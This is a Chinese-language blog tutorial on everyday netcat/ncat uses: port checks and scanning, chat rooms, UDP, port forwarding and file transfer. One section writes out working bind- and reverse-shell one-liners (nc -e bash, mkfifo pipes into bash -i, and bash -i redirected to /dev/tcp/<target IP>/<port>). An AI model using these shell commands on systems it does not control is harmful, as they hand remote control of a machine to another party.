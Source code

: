 ```yaml
---
layout: post
title: NC 的简单应用
description: 瑞士军刀 nc, 你的想象力是局限 nc 的瓶颈
category: opinion
---
```


NC ，不仅代表是 netcat ，还有其加强版 ncat 。

NetCat 是 GNU 开源的网络请求工具， Ncat 是面向21世纪的 netcat，是 Nmap 工具集的一部分，nc 可以用来 读/写 TCP/UDP 网络连接。

nc 不仅可以请求，还能监听 (-l) 网络连接, 不仅支持 TCP 协议，还支持 UDP 协议(-u)，不仅可以在 ipv4 (-4) 网络下进行，还支持 ipv6 (-6)。

```
brew install nmap
```

或者

```
yum install nc
```

即可安装 ncat

## 网络请求

nc 一开始也最基础的功能，发起网络请求，可以用来测试端口是否开启。

TCP `nc -zv addr port`

UDP `nc -zvu addr port`

> 连接 udp 端口有些不准


## 端口扫描

```
nc 127.0.0.1 10-100
```

或者 `nc -z 127.0.0.1 10-100` 端口扫描，侦查功能。


## 网络聊天室

nc 主要用来请求并保持一个网络连接，也可以用来监听一个端口。

比如打开一个 TCP 连接，发送 HTTP 协议请求。 `nc IP_address port_numbe` 连接模式。

```
> nc 127.0.0.1 5002
HEAD / HTTP/1.1

HTTP/1.1 200 OK
Etag: 17f803-3de2-5a560fb2
Content-Type: text/html; charset=utf-8
Content-Length: 15842
Last-Modified: Wed, 10 Jan 2018 13:05:54 GMT
Cache-Control: private, max-age=0, proxy-revalidate, no-store, no-cache, must-revalidate
Server: WEBrick/1.3.1 (Ruby/2.4.1/2017-03-22)
Date: Wed, 10 Jan 2018 13:07:21 GMT
Connection: Keep-Alive

GET / HTTP/1.1

HTTP/1.1 200 OK
Etag: 17f803-3de2-5a560fb2
Content-Type: text/html; charset=utf-8
Content-Length: 15842
Last-Modified: Wed, 10 Jan 2018 13:05:54 GMT
Cache-Control: private, max-age=0, proxy-revalidate, no-store, no-cache, must-revalidate
Server: WEBrick/1.3.1 (Ruby/2.4.1/2017-03-22)
Date: Wed, 10 Jan 2018 13:07:30 GMT
Connection: Keep-Alive

<!DOCTYPE html>
<html>
<head>
...
```

使用 `nc -l IP_address port_numbe` 监听模式。

一个终端使用 `nc -l 127.0.0.1 8090` 开启监听，一个终端使用 `nc 127.0.0.1 8090` 保持连接，即可进行聊天室功能。

但是这样只能点对点双方交流，不能进行多方交流，且建立连接之后任意一方断开连接，则双方都会终止。在 ncat 中新增了订阅者模式，可以由一个 server 提供服务，多个 client 之间相互交流，这样就够搭建一个完整的即时通讯聊天室。

启动 server

```
ncat -l 8888 --broker
```

然后使用多个 client 连接即可。

![ncat_chatroom.png](/images/ncat_chatroom.png)

## UDP 协议支持

开启 UDP 端口监听 `ncat -l -u 8999`

可以使用 `netstat` 查看端口是否开放

```
netstat -tunlp|grep 8999
```

或者使用 netstat 进行通信，建立 UDP 的聊天室。

```
nc -u 127.0.0.1 8999
```

## 反向代理

除了 nginx 可以做反向代理，nginx 也可以实现一个简单的反向代理服务。

> 其实就是端口转发

```
ncat -l 8089| ncat 127.0.0.1 5002
```

这样只能单向代理，即发往 8089 的流量会被代理至 5002 端口上，但是 5002 端口返回的数据，不能通过 8089 再继续返回给我们。

```
mkfifo /tmp/fifo
cat /tmp/fifo | nc 127.0.0.1 5002 | nc -l 9000 > /tmp/fifo
```

双向代理，亲测 HTTP, MySQL 转发可用。

或者这样

```
ncat -l 8068 -c 'ncat 127.0.0.1 5002
```

## shell

nc 的一个经典应用，分为正向 shell 和反向 shell，分别表示客户端控制服务器，和服务器控制客户端。

### 正向 shell

服务器上 (需要有公网地址)

```
nc -l -p 5555 -t -e /usr/bin/bash
```

客户端

```
nc [host] 5555
```

即可在客户端操纵服务器。

也可以操作 Windows `nc -l -p 5555 -t -e cmd.exe`

正向 shell 也可以这样

```
mkfifo /tmp/fifo
cat /tmp/fifo | /bin/bash -i 2>&1 | nc -l 8000 > /tmp/fifo
```

### 反向 shell

在客户端机器上 (需要有公网地址)

```
nc -lp 5555
```

服务器上

```
nc -t -e /usr/bin/bash [ip] 5555
```

即可在客户端操纵服务器。

反向 shell 也可以这样

```
mkfifo /tmp/fifo
cat /tmp/fifo | /bin/bash -i 2>&1 | nc [ip] 8001 > /tmp/fifo
```

用 Telnet 也可以 `rm bd;mkfifo bd;cat bd|/bin/sh -i 2>&1|telnet  <target IP> <port> >bd`

甚至是 bash `bash -c "bash -i &>/dev/tcp/<target IP>/<port> 0>&1"`

正向 shell 与反向 shell 的区别就在与被操纵者有没有公网地址。

## 传输文件

接收端

```
ncat -lp 3333 > 1.mp4
```

发送端

```
ncat -nv --send-only [ip] 3333 < 1.mp4
```

或者先起发送端

```
ncat --send-only -lp 3333 <a.mp4
```

再起接收端

```
nc -nv [ip] 3333 >a.mp4
```

## 保持连接

在 nc shell 中，当客户端连接断掉之后就会自动终止，可以通过加参数 `-k` 来保持连接。

正向 shell

```
nc -l -p 5555 -t -e /usr/bin/bash -k
```

